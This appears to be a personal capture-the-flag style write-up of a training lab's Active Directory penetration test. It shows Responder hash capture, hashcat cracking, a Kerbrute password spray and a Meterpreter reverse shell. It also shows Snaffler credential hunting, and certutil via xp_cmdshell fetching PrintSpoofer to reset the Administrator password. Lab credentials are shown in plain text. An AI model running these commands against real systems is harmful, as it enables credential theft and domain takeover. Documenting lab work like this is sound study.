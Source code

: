 
## Scenario

Our client Inlanefreight has contracted us again to perform a full-scope internal penetration test. The client is looking to find and remediate as many flaws as possible before going through a merger & acquisition process. The new CISO is particularly worried about more nuanced AD security flaws that may have gone unnoticed during previous penetration tests. The client is not concerned about stealth/evasive tactics and has also provided us with a Parrot Linux VM within the internal network to get the best possible coverage of all angles of the network and the Active Directory environment. Connect to the internal attack host via SSH (you can also connect to it using `xfreerdp` as shown in the beginning of this module) and begin looking for a foothold into the domain. Once you have a foothold, enumerate the domain and look for flaws that can be utilized to move laterally, escalate privileges, and achieve domain compromise.

----
## Recon

To obtain a **NTLM** hash i used the **responder** tool
```bash
responder -I ens24 -wrf
```

- `-I`: indicate which network interface we'll be use
- `-w`: Start the WPAD rogue proxy server. Default value is Upstream HTTP proxy used by the rogue WPAD Proxy for outgoing requests (format: host:port)
- `-r`: Enable answers for **netbios** wredir suffix queries. Answering to wredir will likely break stuff on the network. Default: False
- `-f`: `--fingerprint` This option allows you to fingerprint a host that
- `-v`: Increase verbosity of log

![[Pasted image 20250517150618.png]]

In this case we achieve the NTLMv2 hash of **AB920** user for **172.16.7.3** client.
Now i try to crack this NTLMv2 hash using netcat with module `5600`
```bash
sudo hashcat -m 5600 NTLM_hash /usr/share/wordlists/rockyou.txt
```
![[Pasted image 20250517151010.png]]
Now i have this credential

| **Client** | **User** | **Password** |
| ---------- | -------- | ------------ |
| 172.16.7.3 | AB920    | weasal       |

Using nmap i try to enumerate entire subnet
```bash
nmap -A 172.16.7.0/24 -Ao nmap_scan
```

I found three IP 
```text
172.16.7.3  DC01
172.16.7.50 MS01
172.16.7.60 SQL01
```

-----
## Foothold

I need to access in the `MS01` server (172.16.7.50). Enumerating more deep the 172.16.7.50 ip i found two method to try the foothold.
1) The `3389` port is open this means we can try to access in the server with `RDP` protocol
```bash
export DISPLAY=:0
ssh -X user@remote_host
xfreerdp /u:AB920 /p:weasal /v:172.16.7.50 /dynamic-resolution
```

2) The `5985` port is open this means we can try to access in the server with `winrm` protocol
```bash
crackmapexec winrm -u AB920 -p weasal -d INLANEFREIGHT 172.16.7.50
```

----
## Password Spray Attack

Download the `Kerbrute` and `PowerView.ps1` tools in the attack machine
```bash
wget -q https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_amd64.exe
```

Now i need to copy this tool in the machine where i have the SSH session.
```bash
scp PowerView.ps1 htb-student@10.129.73.75:/home/htb-student/Desktop
scp kerbrute_windows_amd64.exe htb-student@10.129.73.75:/home/htb-student/Desktop
```

To transfer this tools in the `MS01` machine we can use the shared folder in the machine. To crate the shared folder on the victim machine use 
```shell
xfreerdp /v:172.16.7.50 /u:AB920 /p:weasal /drive:share,/home/htb-student/Desktop
```

![[Pasted image 20250519000719.png]]

I started the meterpreter shell to have more stable sessions on the compromise machine
1) Create a meterpreter shell `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.7.240 LPORT=4466 -f exe > meterpreter_shell.exe`
2) Use the `multi/handler` module
3) Connect with RDP using `xfreerdp` and `/drive:share` flag
4) Copy the .exe file on the desktop of victim machine
5) Start the .exe file
![[Pasted image 20250519001250.png]]

Now using `PowerView` i need to crate a valid users list

```powershell
cd .\Desktop\
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\PowerView.ps1
Get-DomainUser * | Select-Object -ExpandProperty samaccountname | Foreach {$_.TrimEnd()} |Set-Content adusers.txt
Get-Content .\adusers.txt | select -First 10
```

![[Pasted image 20250519002018.png]]

Using `kerbrute` i preform the passwordSpray attack with `Welcome1` stupid password

```bash
.\kerbrute_windows_amd64.exe passwordspray -d INLANEFREIGHT.LOCAL .\adUsers.txt Welcome1
```

![[Pasted image 20250519002429.png]]


| User  | Password |
| ----- | -------- |
| BR086 | Welcome1 |

---
## Privilege Escalation

First all i need to put the `Snaffler.exe` tool on the victim machine. I can use the same technique used with `Kerbrute`
```shell
wget -q https://github.com/SnaffCon/Snaffler/releases/download/1.0.16/Snaffler.exe

scp Snaffler.exe htb-student@10.129.73.75:/home/htb-student/Desktop
```

![[Pasted image 20250519003745.png]]

Now i try to run Snaffler as new user founded `BR086` i can achieve this with `runas` on powershell

```powershell
runas /netonly /user:INLANEFREIGHT\BR086 powershell
```


Now that i have impersonate the `BR086` can i launch the `snaffler` exe

![[Pasted image 20250519012921.png]]


| user  | password         |
| ----- | ---------------- |
| netdb | D@ta_bAse_adm1n! |

With this credential is possible access to the `172.16.7.60` SQL server machine. In this case i used the `mssqlclient.py` tool
```bash
mssqlclient.py INLANEFREIGHT/netdb:D@ta_bAse_adm1n\!@172.16.7.60
```

using the `whomai /priv` command is possible to visualize all privilege. In this case we can **escalate privilege** trough **SeImpersonatePrivilage** with [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe).
![[Pasted image 20250519013904.png]]

Firs alll download and copy on attack machine
```bash
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe

scp PrintSpoofer64.exe htb-student@STMIP:/home/htb-student/Desktop

```

now activate the `python3 -m http.server` on the ssh attack machine and download on th `SQL01` machine with the following command
```bash
xp_cmdshell certutil -urlcache -split -f "http://172.16.7.240:9000/PrintSpoofer64.exe" c:\windows\temp\PrintSpoofer64.exe
```

![[Pasted image 20250519014508.png]]

now i change the password for **Administrator** account in to `Welcome1`.

```sql
xp_cmdshell windows\temp\PrintSpoofer64.exe -c "net user administrator Welcome1"
```

![[Pasted image 20250519014658.png]]

now using `smbclient` can i access as local user administrator and get the flag

```bash
smbclient -U administrator \\\\172.16.7.60\\C$
```

![[Pasted image 20250519015347.png]]

or using `crackmapexec` with `--local-auth` flag

```bash
crackmapexec smb 172.16.7.60 -u administrator -p Welcome1 --local-auth --get-file 'Users\Administrator\Desktop\flag.txt' flag2.txt
```

![[Pasted image 20250519020119.png]]

